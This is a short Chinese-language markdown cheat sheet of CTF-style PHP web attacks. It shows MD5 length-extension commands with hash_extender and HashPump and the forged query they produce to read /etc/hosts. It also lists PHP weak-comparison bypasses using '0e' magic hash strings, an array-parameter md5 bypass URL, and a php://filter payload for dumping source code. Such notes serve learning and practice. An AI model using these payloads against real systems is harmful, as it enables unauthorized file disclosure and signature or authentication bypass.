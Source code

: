 
# web基础

* php攻击
    - MD5 Length Extension Attack
    - 弱类型漏洞
    - md5加密


## php攻击
###  MD5 Length Extension Attack
* 工具
1. hash_extender  
> https://github.com/iagox86/hash_extender
2. HashPump  
> https://github.com/bwall/HashPump

* 代码
```shell
$ ./hash_extender -f md5 -l 32 -d '/etc/hosts' -s 'f3d366138601b5afefbd4fc15731692e' -a '' --out-data-format=html
Type: md5
Secret length: 32
New signature: 1b17d9594eb404c97c5090b11660ac63
New string: %2fetc%2fhosts%80%00%00%00%00%00%00%00%00%00%00%00%00%00P%01%00%00%00%00%00%00

$ ~/Desktop/HashPump
$ hashpump -s f3d366138601b5afefbd4fc15731692e -d /etc/hosts -k 32 -a /etc/hosts 
75221e2e5cd1cd1c7694cbd386571ffe
/etc/hosts\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00P\x01\x00\x00\x00\x00\x00\x00/etc/hosts


//最后构成
?filepath=%2fetc%2fhosts%80%00%00%00%00%00%00%00%00%00%00%00%00%00P%01%00%00%00%00%00%00%2fetc%2fhosts&sign=75221e2e5cd1cd1c7694cbd386571ffe
``` 

### 弱类型漏洞

* 弱类型漏洞之 ==

> password=240610708


### php流
* 漏洞
> php://filter
> ?file=php://filter/vonvert.base64-encode/resource=index.php


### md5加密
* 题目
``` 
if(md5($key1) == md5($key2) && $key1 !== $key2){
    echo $flag."取得flag";
}
```
* 解析
> md5加密的值一样而未加密的值不同，就输出flag

* 绕过方法
1. 数组
> md5()函数无法处理数组，如果传入的为数组，会返回NULL，所以两个数组经过加密后得到的都是NULL,也就是相等的。
``` 
http://123.206.87.240:8002/web16/index.php?kkeyey1[]=2&kkeyey2[]=1
```

2. 利用==比较漏洞
> 如果两个字符经MD5加密后的值为 0exxxxx形式，就会被认为是科学计数法，且表示的是0*10的xxxx次方，还是零，都是相等的。
``` 
下列的字符串的MD5值都是0e开头的:
QNKCDZO
240610708
s878926199a
s155964671a
s214587387a
s214587387a
```
